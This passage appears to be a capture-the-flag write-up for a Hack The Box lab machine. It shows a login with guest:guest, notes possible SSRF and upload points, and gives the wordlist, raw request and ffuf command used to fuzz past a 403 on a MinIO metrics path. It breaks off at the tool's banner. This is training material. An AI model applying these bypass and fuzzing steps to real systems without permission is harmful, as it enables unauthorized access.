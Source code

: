```markdown
```
Enumerate the web site on port with Firefox, a login portal comes into view at http://demo.skyfall.htb/login

Try several common credentials, access is granted with `guest:guest`, and a dashboard comes into view.

![Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/f0b096e6-4cca-4c8f-b0b1-b570a335da29)

If we continue to enumerate the site with firefox, we make to following findings:
- A possible SSRF point in the "URL fetch" tab at: http://demo.skyfall.htb/fetch
- A possible point for malicious file upload in the "Files" tab at: http://demo.skyfall.htb/files
- A 403 forbidden status in the "MinIO Metrics" tab at: http://demo.skyfall.htb/metrics

At this point, having found several points of entry, we can consider the enumeration phase finished and start the exploitation.

### USER
Investigate ways to bypass the MinIO metrics 403 code here:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses#path-fuzzing<br>
<br>
Following the indicated procedure for path fuzzing, first download an unicode wordlist from here: https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/Unicode.txt<br>
<br>
Trim the file to remove duplicate characters, resulting in a list of 1024 characters.
```markdwon
> cat Unicode.txt | sed 's/.\{3\}$//' | sort -u > unicode

> head unicode
%00
%01
%02
%03
%04
%05
%06
%07
%08
%09
```
Prepare a `request.txt` file for fuzzing the "MinIO metrics" URI.
```markdown
GET /metricsFUZZ HTTP/1.1
Host: demo.skyfall.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://demo.skyfall.htb/index
Cookie: session=.eJwljjluwzAQAP_C2oX2oHbXnxHIPZDAQAJIdmX47yGQcqaZebejzry-2v15vvLWju9o96akmGOTkR6AyYkqtc1erBCmCbiJUHhwOu1MGrBPndY5S0uqyFwqBQsGmcmU7sS9yJ2mqltYzYTwlUHoHsS8Q2g5yBgQbY28rjz_b2ChX2cdz99H_iyRw5AmEuAgQQOJ2TE6ZcS-HLhtxDW5ff4AXpdAHQ.Zb-FEQ.bpLEM3a2Qu1y5hlGYx5dx68sXho
Upgrade-Insecure-Requests: 1
```
Fuzz the URI with `ffuf` to discover an unicode to bypass the 403 status.
```markdown
> ffuf -c -request request.txt -request-proto http -t 100 -fc 403 -w ./unicode    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
```